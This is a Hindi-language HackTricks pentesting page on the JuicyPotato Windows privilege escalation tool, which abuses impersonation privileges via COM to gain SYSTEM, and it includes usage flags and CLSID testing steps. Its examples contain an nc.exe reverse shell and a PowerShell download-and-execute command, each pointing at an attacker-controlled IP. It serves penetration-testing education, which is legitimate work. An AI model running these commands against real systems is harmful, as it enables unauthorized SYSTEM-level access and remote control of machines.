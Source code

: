 # JuicyPotato

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को हैकट्रिक्स में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करने का एक्सेस** चाहिए? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) **डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या **टेलीग्राम समूह** या **मुझे** ट्विटर पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो**](https://github.com/carlospolop/hacktricks) **और** [**हैकट्रिक्स-क्लाउड रेपो**](https://github.com/carlospolop/hacktricks-cloud) **में पीआर जमा करके।

</details>

{% hint style="warning" %}
**JuicyPotato** Windows Server 2019 और Windows 10 बिल्ड 1809 के बाद काम नहीं करता है। हालांकि, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) का उपयोग किया जा सकता है ताकि **वे एक ही विशेषाधिकारों का उपयोग करें और `NT AUTHORITY\SYSTEM`** स्तर का एक्सेस प्राप्त करें। _**जांचें:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (स्वर्ण विशेषाधिकारों का दुरुपयोग) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_एक चीनी रूपांतरण वाला_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_ का एक बिट रस, अर्थात **एक और स्थानीय विशेषाधिकार उन्नति उपकरण, विंडोज सेवा खातों से NT AUTHORITY\SYSTEM तक**_

#### आप [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts) से juicypotato डाउनलोड कर सकते हैं।

### सारांश <a href="#summary" id="summary"></a>

**[Juicy-potato Readme से](https://github.com/ohpe/juicy-potato/blob/master/README.md):**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) और इसके [वेरिएंट्स](https://github.com/decoder-it/lonelypotato) ने [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [सेवा](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) पर आधारित विशेषाधिकार उन्नति श्रृंखला का उपयोग किया है जिसमें `127.0.0.1:6666` पर MiTM सुनने वाला होता है और जब आपके पास `SeImpersonate` या `SeAssignPrimaryToken` विशेषाधिकार होते हैं। एक विंडोज निर्माण समीक्षा के दौरान हमने एक सेटअप पाया जहां `BITS` को जानबूझकर अक्षम किया गया था और पोर्ट `6666` लिया गया था।

हमने [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) को शस्त्रीकृत करने का निर्णय लिया: **Juicy Potato का स्वागत करें**।

> सिद्धांत के लिए, [Rotten Potato - सेवा खातों से सिस्टम तक विशेषाधिकार उन्नति](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) देखें और लिंक और संदर्भों की श्रृंखला का पालन करें।

हमने पाया कि, `BITS` के अलावा हम कई COM सर्वरों का दुरुपयोग कर सकते हैं। उन्हें बस यह करने की आवश्यकता है:

1. वर्तमान उपयोगकर्ता द्वारा instantiable होना, सामान्य रूप से एक "सेवा उपयोगकर्ता" जिसके पास अनुकरण विशेषाधिकार होते हैं
2. `IMarshal` इंटरफेस को कार्यान्वित करना
3. उच्च स्तर पर चलाना (SYSTEM, प्रशासक, ...)

कुछ परीक्षण के बाद हमने कई [रोचक CLSID](http://ohpe.it/juicy-potato/CLSID/) की एक व्यापक सूची प्राप्त और परीक्षण किया।

### जूसी विवरण <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato आपको निम्नलिखित करने की अनुमति देता है:

* **लक्ष्य CLSID** _आप किसी भी CLSID का चयन कर सकते हैं।_ [_यहाँ_](http://ohpe.it/juicy-potato/CLSID/) _आप OS द्वारा संगठित सूची पा सकते हैं।_
* **COM सुनने का पोर्ट** _आपकी पसंद का COM सुनने का पोर्ट परिभाषित करें (मार्शल किए गए हार्डकोडेड 6666 के बजाय)_
* **COM सुनने का आईपी पता** _किसी भी आईपी पर सर्वर बाँधें_
* **प्रक्रिया निर्माण मोड** _अनुकरण करने वाले उपयोगकर्ता की विशेषाधिकारों के आधार पर आप `CreateProcessWithToken` (जरूरत है `SeImpersonate`), `CreateProcessAsUser` (जरूरत है `SeAssignPrimaryToken`), `दोनों` में से चुन सकते हैं।
* **लॉन्च करने के लिए प्रक्रिया** _यदि शोषण सफल होता है तो एक executable या स्क्रिप्ट लॉन्च करें_
* **प्रक्रिया तर्क** _लॉन्च की गई प्रक्रिया तर्क को अनुकूलित करें_
* **RPC सर्वर पता** _एक छिपी दृष्टिकोण के लिए आप एक बाह्य RPC सर्वर से प्रमाणित कर सकते हैं_
* **RPC सर्वर पोर्ट** _उपयोगी है अगर आप एक बाह्य सर्वर से प्रमाणित होना चाहते हैं और फ़ायरवॉल पोर्ट `135` को अवरुद्ध कर रहा है..._
* **परीक्षण मोड** _मुख्य रूप से परीक्षण के उद्देश्यों के लिए, अर्थात CLSIDs का परीक्षण। यह DCOM बनाता है और टोकन का उपयोगकर्ता प्रिंट करता है। टेस्टिंग के लिए यहाँ देखें_ [_यहाँ_](http://ohpe.it/juicy-potato/Test/)

### उपयोग <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### अंतिम विचार <a href="#final-thoughts" id="final-thoughts"></a>

**[Juicy Potato Readme से](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts):**

यदि उपयोगकर्ता के पास `SeImpersonate` या `SeAssignPrimaryToken` विशेषाधिकार हैं तो आप **SYSTEM** हैं।

इन सभी COM सर्वरों के दुरुपयोग को रोकना लगभग असंभव है। आप इन ऑब्जेक्ट्स की अनुमतियों को `DCOMCNFG` के माध्यम से संशोधित करने के बारे में सोच सकते हैं, लेकिन शुभकामनाएं, यह कठिन होगा।

वास्तविक समाधान है कि `* SERVICE` खातों के तहत चलने वाले संवेदनशील खातों और एप्लिकेशनों को सुरक्षित रखें। `DCOM` को रोकना निश्चित रूप से इस उत्पीड़न को रोकेगा लेकिन इसका मूल ऑपरेटिंग सिस्टम पर गंभीर प्रभाव हो सकता है।

स्रोत: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## उदाहरण

ध्यान दें: कोशिश करने के लिए CLSIDs की सूची के लिए [इस पृष्ठ](https://ohpe.it/juicy-potato/CLSID/) पर जाएं।

### एक nc.exe रिवर्स शैल प्राप्त करें
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### पावरशेल रेव
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### नए CMD लॉन्च करें (अगर आपके पास RDP एक्सेस है)

![](<../../.gitbook/assets/image (37).png>)

## CLSID समस्याएं

अक्सर, JuicyPotato द्वारा उपयोग किया जाने वाला डिफ़ॉल्ट CLSID **काम नहीं करता** है और उसका उपयोग विफल हो जाता है। सामान्यत: एक स्थिति में, कई प्रयासों की आवश्यकता होती है ताकि एक **काम करने वाला CLSID** मिल सके। किसी विशिष्ट ऑपरेटिंग सिस्टम के लिए प्रयोग करने के लिए CLSIDs की सूची प्राप्त करने के लिए आपको इस पृष्ठ पर जाना चाहिए:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSIDs की जाँच**

सबसे पहले, आपको juicypotato.exe के अलावा कुछ एक्जीक्यूटेबल्स की आवश्यकता होगी।

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) डाउनलोड करें और इसे अपने PS सत्र में लोड करें, और [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) डाउनलोड और निष्पादित करें। उस स्क्रिप्ट से संभावित CLSIDs की एक सूची बनाएगा।

फिर [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(CLSID सूची और juicypotato executable के लिए पथ बदलें) डाउनलोड करें और इसे निष्पादित करें। यह हर CLSID की कोशिश करना शुरू कर देगा, और **जब पोर्ट नंबर बदल जाएगा, तो इसका मतलब है कि CLSID काम कर गया है**।

**पैरामीटर -c** का उपयोग करके **काम करने वाले CLSIDs की जाँच करें**

## संदर्भ
* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)
